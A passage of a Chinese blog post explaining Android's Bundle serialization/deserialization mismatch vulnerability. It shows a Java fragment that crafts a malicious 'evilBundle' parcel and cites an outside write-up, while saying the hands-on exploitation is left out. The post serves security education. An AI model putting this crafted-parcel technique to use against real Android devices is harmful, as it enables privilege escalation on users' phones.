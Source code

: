 ```

        ///////////////////////////////////////
        pcelData.writeString("Padding-Key");
        pcelData.writeInt(0); // VAL_STRING
        pcelData.writeString("Padding-Value"); //


        int length  = pcelData.dataSize();
        Log.d(TAG, "length is " + Integer.toHexString(length));
        bndlData.writeInt(length);
        bndlData.writeInt(0x4c444E42);
        bndlData.appendFrom(pcelData, 0, length);
        bndlData.setDataPosition(0);
        evilBundle.readFromParcel(bndlData);
        Log.d(TAG, evilBundle.toString());
       return evilBundle;
```
这一段的出处是http://www.droidsec.cn/bundle%E9%A3%8E%E6%B0%B4-android%E5%BA%8F%E5%88%97%E5%8C%96%E4%B8%8E%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B8%8D%E5%8C%B9%E9%85%8D%E6%BC%8F%E6%B4%9E%E8%AF%A6%E8%A7%A3/
这篇文章,因为我们的重点在于讲解原理,所以实战部分,就不自己做了,有兴趣的朋友可以自行尝试.

其实这里是有限制的,仍然会让你先确认pin码,qq支付宝等等带着手势锁定功能的我都试了试,其实都是有做限制的,会先让你确认现在的密码,大多数应用都会有类似的安全策略吧,这里也不谈不正当用途了.

![](https://github.com/EggUncle/Demo/blob/master/markdownimg/2018-06-15%2022-27-26%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE.png?raw=true)
